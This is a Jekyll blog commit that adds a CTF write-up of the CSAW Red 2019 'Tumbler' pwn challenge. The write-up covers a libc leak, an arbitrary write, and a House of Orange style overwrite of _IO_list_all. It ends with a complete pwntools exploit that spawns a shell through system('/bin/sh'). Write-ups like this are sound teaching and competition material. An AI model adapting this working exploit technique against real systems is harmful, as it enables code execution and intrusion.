

Before and after one commit to chen-robert/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; the list of posts is cut into pages by our own code.

Commit message:
Uploaded csaw red tumbler

````diff
--- a/_layouts/post.html
+++ b/_layouts/post.html
@@ -8,7 +8,7 @@ layout: default
   {{ content }}
 </div>
 
-{% unless page.exclude %}
+{% unless true %}
 <div class="related">
   <h2>Related Posts</h2>
   <ul class="related-posts">
--- /dev/null
+++ b/_posts/2019-10-05-csawred19-tumbler.md
@@ -0,0 +1,155 @@
+---
+title: CSAW Red 19 Tumbler
+---
+
+I was one of the two teams that solved Tumbler from [CSAW Red](https://red.csaw.io).
+
+#### Problem
+*Pwn 500*
+
+No way that cryptocurrency is a scam, that would NEVER happen
+
+`nc pwn.chal.csaw.io 1000`
+
+#### Analysis
+The libc provided was 2.23.
+```bash
+$ strings libc.so.6 | grep GNU
+GNU C Library (Ubuntu GLIBC 2.23-0ubuntu10) stable release version 2.23, by Roland McGrath et al.
+Compiled by GNU CC version 5.4.0 20160609.
+        GNU Libidn by Simon Josefsson
+```
+
+Decompiling the binary, it is immediately apparent that we have an arbitrary write primitive in one of the later functions called.
+
+```c
+void arb_write(void)
+
+{
+  void *__buf;
+
+  puts("Which coin do you want to edit?");
+  __buf = (void *)get_number();
+  puts("What are you writing?");
+  read(0,__buf,0x100);
+  return;
+}
+```
+
+<!--more-->
+
+Furthermore, due to the use of malloc instead of calloc, we can leak a libc address by setting an address to an unsorted bin sized chunk, and then freeing it.
+
+```python
+p.recvuntil("Please enter your address")
+p.sendline("A" * 0x80)
+p.recvuntil("Is your address correct? This is important. y/n")
+p.sendline("n")
+p.sendline("A" * 7)
+```
+
+Note that the `"A" * 7` is taken from the unsorted bin chunk created from freeing `"A" * 0x80`. Thus, we can get a libc leak by carefully overwriting only the first 8 bytes (the remaining 8 bytes contains a back pointer to libc).
+
+#### Solution
+
+Now that we have a libc leak and arbitrary write, we need a way to redirect code execution. Nothing interesting really happens after our arbitrary write primitive.
+
+```c
+  ...
+  arb_write();
+  puts("Your coins are now ours.\nDon\'t forget your keys, or that\'s where they\'ll stay.");
+  return 0;
+}
+```
+
+Unfortunately, both PIE and Full RELRO are enabled, making a GOT overwrite impossible.
+
+```bash
+$ checksec -f tumbler
+RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
+Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   90 Symbols     Yes      0               10      tumbler
+```
+
+As always, it's useful to take a look at the glibc source code. The code for `__libc_start_main` can be found in `./csu/libc-start.c`.
+
+```c
+#else
+  /* Nothing fancy, just call the function.  */
+  result = main (argc, argv, __environ MAIN_AUXVEC_PARAM);
+#endif
+
+  exit (result);
+```
+
+It appears nothing fancy happens - only exit gets called. Well what happens when exit gets called? `exit` is defined in `./stdlib/exit.c`. There are a lot of function pointers, but unfortunately all of them are in a read only section of libc memory. Interestingly enough, there is an additional hook at the end.
+
+```c
+  if (run_list_atexit)
+    RUN_HOOK (__libc_atexit, ());
+```
+
+A simple inspection in GDB reveals `__libc_atexit` points to `_IO_cleanup`, which is found in `./libio/genops.c`.
+
+```c
+int
+_IO_cleanup (void)
+{
+  int result = _IO_flush_all_lockp (0);
+
+  _IO_unbuffer_all ();
+
+  return result;
+}
+```
+
+Wait a minute... The `_IO_flush_all_lockp` function sounds familiar. It's the same function used in House of Orange (see this [tutorial](https://1ce0ear.github.io/2017/11/26/study-house-of-orange/) for more info).
+
+In fact, our exploit is even simpler than the standard House of Orange because we don't need to rely on an unsorted bin attack to overwrite the `_IO_list_all` pointer, we can overwrite it directly with our arbitrary write. With a bit of clever compression overlapping the vtable with the file struct, our payload easily fits under the 0x100 size limit.
+
+My final exploit is as follows.
+
+```python
+from pwn import *
+
+e = ELF("./tumbler")
+libc = ELF("./libc.so.6")
+
+context.binary = e.path
+
+if "--remote" in sys.argv:
+  p = remote("pwn.chal.csaw.io", 1000)
+else:
+  p = process(e.path
+  )
+  #{"LD_PRELOAD": libc.path})
+
+p.recvuntil("enter")
+p.sendline("A")
+p.recvuntil("enter")
+p.sendline("A" * 0x80)
+p.recvuntil("y/n")
+p.sendline("n")
+p.sendline("A" * 7)
+p.recvuntil("y/n")
+p.sendline("y")
+
+p.recvuntil("Address:")
+p.recvline()
+
+leak = u64(p.recvline(keepends=False)[:6] + "\x00\x00") - 0x7f18390bebf8 + 0x00007f1838cfa000
+print("{:#x}".format(leak))
+
+
+p.recvuntil("?")
+p.send(str(leak + libc.symbols["_IO_list_all"]))
+p.recvuntil("?")
+
+p.sendline(
+  p64(leak + libc.symbols["_IO_list_all"] + 8)
++ ("/bin/sh\x00" + p64(leak + libc.symbols["system"]) + p64(0) * 3 + p64(0x1001)).ljust(0xc0, "\x00")
++ "\x00" * 8 * 3
++ p64(leak + libc.symbols["_IO_list_all"] + 0x10 - 0x18)
+)
+
+p.interactive()
+```
````
